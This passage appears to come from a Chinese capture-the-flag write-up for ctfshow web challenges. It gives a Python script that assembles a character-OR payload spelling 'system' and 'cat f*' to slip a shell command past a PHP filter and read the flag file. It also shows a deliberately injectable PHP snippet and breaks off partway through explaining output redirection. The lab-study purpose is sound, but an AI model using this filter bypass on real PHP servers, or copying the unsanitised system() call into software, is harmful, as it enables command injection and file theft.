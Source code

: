 ```python
mya="system"  #函数名 这里修改！
myb="cat f*"      #参数
def myfun(k,my):
    global ans1
    global ans2
    for i in range (0,len(a)):
        for j in range(i,len(a)):
            if(a[i]|a[j]==ord(my[k])):
                ans1+=chr(a[i])
                ans2+=chr(a[j])
                return;
for k in range(0,len(mya)):
    myfun(k,mya)
data1="(\""+ans1+"\"|\""+ans2+"\")"
ans1=""
ans2=""
for k in range(0,len(myb)):
    myfun(k,myb)
data2="(\""+ans1+"\"|\""+ans2+"\")"

data={"c":data1+data2}
r=requests.post(url=url,data=data)
print(r.text)
```





### web42

```php
 <?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    system($c." >/dev/null 2>&1");
}else{
    highlight_file(__FILE__);
} 
```

参考文章：

### [linux中>/dev/null 2>&1和2>&1 > /dev/null](https://www.cnblogs.com/kexianting/p/11630085.html)

看了文章之后，我们大概知道了如下 linux命令的意思

```php
>/dev/null 2>&1
```

大概就是   > 在linux中代表输出重定向（把标准输出重定向到指定的文件或位置）等同于 1>

所以： >/dev/null   
